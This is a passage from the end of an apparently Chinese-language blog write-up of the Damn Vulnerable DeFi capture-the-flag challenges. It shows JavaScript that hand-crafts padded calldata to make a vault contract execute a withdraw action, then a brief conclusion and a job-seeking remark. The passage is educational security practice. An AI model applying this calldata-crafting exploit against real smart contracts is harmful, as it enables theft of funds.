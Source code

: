 ```javascript
        )
        
        // 32 + 32 + 4 + 32 + 100 + 24 = 224 = 32 * 7 
        const padding  = await ethers.utils.hexZeroPad(
            "0x0",
            24
        );

        const action = await ethers.utils.hexConcat(
            [actionDataStore, randoms, withdraw, actionDataLength, actionDataContent,padding]
        );

        const calldata = await ethers.utils.hexConcat(
            [executeSig,vaultAddr,action]
        );

        console.log(calldata);

        await player.sendTransaction({
            to: vault.address,
            data : calldata
        });


    });
```

<hr />

# 总结

很开心，完成了`Damn Vulnerable Defi`的挑战。区块链安全真的内容很多，充满机会，但也是黑暗森林，不得不防守。接下来，我会开展`DefiHackLabs`的分享。欢迎关注！

BTW，我目前也有想换一个工作环境，Open to Opportunities!
